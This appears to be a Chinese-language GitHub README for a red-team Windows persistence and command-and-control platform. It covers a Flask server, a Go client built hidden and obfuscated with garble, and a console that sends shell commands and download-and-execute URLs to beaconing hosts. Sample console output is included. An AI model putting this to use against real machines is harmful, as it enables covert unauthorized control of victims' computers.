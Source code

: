 - 本人github的项目可能目前主要分为两大类，🐸Frog系列为自动化扫描方向，🐶Doge系列为免杀及内网渗透方向

# 🐶Doge-Persistence-Platform

本项目短期内不开源

等我啥时候把golang的server写出来应该就能放编译好的出来了(也许)

## Intro

Doge-Persistence-Platform

DPP windows控制持久化辅助平台

在红蓝对抗/APT/高级渗透测试中，持久化控制已成为一个不可或缺的能力，

虽然，Cobalt Strike与MSF已经在一定程度上满足需求，

由于其具有较强特征，功能过剩，二开麻烦等原因，

从零开始完成了本项目

```
注: 本项目在完成过程中未参考任何项目源码

注: 本项目总用时为一周左右，仅为项目demo
```
## Arch
本项目采用

client----server----console的架构

client与console为golang编译的二进制程序，在windows下运行

server为python flask框架下的web api，在linux vps运行

## Build
server:
```
python3 -m pip install flask

export FLASK_APP=server.py

flask run --host=0.0.0.0 --port=9000

port可自定义
server.py内的key可自定义
heartbeat_raw为初始心跳时间可自定义

```

client:
```
将connUrl替换为server端的url，不带最后一个/
例如：http://100.100.100.100:9000

将var init_key替换为你server中自定义的key

go build -gcflags=-trimpath=$GOPATH -asmflags=-trimpath=$GOPATH -ldflags "-w -s -H windowsgui" main.go

or

garble.exe build -trimpath -ldflags "-w -s -H windowsgui" main.go
```

console:
```
替换sKey为server中的自定义key
替换connUrl为server的url

go build console.go
```

## Use

### client
客户端支持两种上线方式：

#### 单次上线

单次上线为本项目的最初计划的方式，目的是配合系统持久化手段进行控制持久化，

例如：

	采用计划任务的方式，把客户端以单次运行方式执行，设定每1小时执行一次即可。

	采用服务自启动的方式，把客户端以单次运行方式执行，设定每次开机执行一次即可。

单次上线不常驻后台，每次执行即可与api对接一次，接收相关信息。

运行方式(以下三选一即可):
```
client.exe -o
client.exe --once
client.exe once
```
#### beacon上线
beacon上线为在开发过程中加入的上线方式，可以代替简单功能的C2。

常驻后台，心跳包定时请求api

运行方式:
```
client.exe -b
client.exe --beacon
client.exe beacon
```

### console
控制台采用命令行交互

运行方式：
```
在powershell中:
./console.exe
```
## 运行截图
![1](https://raw.githubusercontent.com/timwhitez/Doge-Persistence-Platform/main/pic/1.png)
![2](https://raw.githubusercontent.com/timwhitez/Doge-Persistence-Platform/main/pic/2.png)
![3](https://raw.githubusercontent.com/timwhitez/Doge-Persistence-Platform/main/pic/3.png)
## Features
```
PS D:\> .\console.exe
       _            _            _              _
      /\ \         /\ \         /\ \           /\ \
     /  \ \____   /  \ \       /  \ \         /  \ \
    / /\ \_____\ / /\ \ \     / /\ \_\       / /\ \ \
   / / /\/___  // / /\ \ \   / / /\/_/      / / /\ \_\
  / / /   / / // / /  \ \_\ / / / ______   / /_/_ \/_/
 / / /   / / // / /   / / // / / /\_____\ / /____/\
/ / /   / / // / /   / / // / /  \/____ // /\____\/
\ \ \__/ / // / /___/ / // / /_____/ / // / /______
 \ \___\/ // / /____\/ // / /______\/ // / /_______\
  \/_____/ \/_________/ \/___________/ \/__________/


--------Welcome to Doge-Persistence-Platform--------

Input The Secret-Key:DogeTest


1.列出所有主机           | List all hosts                      | all

2.列出所有n天内上线主机  | List all hosts connected in n days  | days

3.列出所有心跳上线主机   | List all heartbeats hosts           | beacon

4.列出所有单次上线主机   | List all online once hosts          | once

Input(num or word): 1

1 | DESKTOP-DogeTest;8.8.8.8:192.168.1.1; heartbeat: 60 min ; 2021/02/08,17:01:29
2 | DESKTOP-DogeTest1;8.8.8.8:192.168.1.2; once ; 2021/02/07,11:05:41

选择目标主机(输入0回退)  | Target Num(input 0 back)

Input:1


1. 查看主机info          | Show Target Info                    | info

2. 命令执行              | Set CMD                             | cmd

3. 待执行命令或url       | List CMD or url                     | list

4. 下载url               | Set Download & exec Url             | download

5. 命令执行结果          | Show All CMD Results                | results

6. 删除历史数据          | Delete                              | del

7. 修改心跳时间(退出)    | Set Sleep (shutdown)                | sleep

Exploit(type 0 back): 2

HostName: DESKTOP-DogeTest
IP: 8.8.8.8:192.168.1.1


输入需要下发的命令 | Input the command

Input(input 0 back): whoami

命令下发成功! | Success!
Press any key to continue...


1. 查看主机info          | Show Target Info                    | info

2. 命令执行              | Set CMD                             | cmd

3. 待执行命令或url       | List CMD or url                     | list

4. 下载url               | Set Download & exec Url             | download

5. 命令执行结果          | Show All CMD Results                | results

6. 删除历史数据          | Delete                              | del

7. 修改心跳时间(退出)    | Set Sleep (shutdown)                | sleep

Exploit(type 0 back): 1

HostName: DESKTOP-DogeTest
IP: 8.8.8.8:192.168.1.1
OnlineType: heartbeat
Last connection: 2021/02/08,17:01:29

Press any key to continue...
Username: DESKTOP-DogeTest\sandbox
Hostname: DESKTOP-DogeTest
InternalIP: 192.168.1.1

ProcessList:
xxx.exe, yyy.exe, qqq.exe

systeminfo:
xxxxxxx

Press any key to continue...
```
